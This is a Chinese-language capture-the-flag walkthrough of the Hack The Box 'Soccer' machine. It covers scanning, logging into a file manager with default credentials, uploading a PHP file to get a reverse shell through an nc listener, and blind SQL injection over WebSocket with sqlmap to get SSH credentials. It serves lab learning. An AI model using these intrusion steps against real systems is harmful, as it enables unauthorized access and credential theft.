

### 一、信息收集

1. 端口扫描
```shell
nmap -A 10.10.11.194
###  出现端口:22/80/9091,及域名soccer.htb
```

2. 目录扫描和子域名扫描扫描
```shell
# 子域名扫描
gobuster vhost -u http://soccer.htb/ -w /usr/share/seclist/dns/namelist.txt
### 没有结果

# 目录扫描
dirsearch -u http://soccer.htb/
### 存在目录tiny
```

3. 针对网站的敏感信息收集
在`http://soccer.htb/tiny/`发现登录界面


> Github查询，发现存在默认帐号密码:admin/admin@123，进行登录进入管理后台


### 二、漏洞利用
1. 出现文件上传功能


- 尝试上传test.php文件
```php
<?php
    phpinfo();
?>
```
> 访问对应路径可以展示信息，存在漏洞

- 监听文件
```shell
nc -lvnp 4444
```

- 上传反弹shell文件并执行
```shell
# 在线制作文件https://www.revshells.com/
```
> 已经获取低等级用户的权限

2. 内部信息收集
- 通过之前的敏感信息收集，服务器中间件为nginx，操作系统为Ubuntu，进入目录/etc/nginx/sites-available尝试查找信息
```shell
# 存在配置文件：default和soc-player.htb

# soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
### 出现子域名:soc-player.soccer.htb
```

- 查看可能存在的用户
> 出现用户:player

3.  获取用户player的shell

- 子域名soc-player.soccer.htb的敏感信息收集 

> 该页面存在服务用来判断票是否合法，通过查看网页源代码发现使用WebSocket协议进行访问
```javascript
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
        
        ws.onopen = function (e) {
            console.log('connected to the server')
        }
        input.addEventListener('keypress', (e) => {
            keyOne(e)
        });
        
        function keyOne(e) {
            e.stopPropagation();
            if (e.keyCode === 13) {
                e.preventDefault();
                sendText();
            }
        }
        
        function sendText() {
            var msg = input.value;
            if (msg.length > 0) {
                ws.send(JSON.stringify({
                    "id": msg
                }))
            }
            else append("????????")
        }
        }
        
        ws.onmessage = function (e) {
        append(e.data)
        }
        
        function append(msg) {
        let p = document.querySelector("p");
        // let randomColor = '#' + Math.floor(Math.random() * 16777215).toString(16);
        // p.style.color = randomColor;
        p.textContent = msg
        }

        // 尝试输入payload发现可能存在sql注入问题，根据网上方案改为可以使用sqlmap的方案
        // 方案：https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

>  按照方案调整，并使用sqlmap进行注入，发现player的密码，使用ssh登录获取webshell
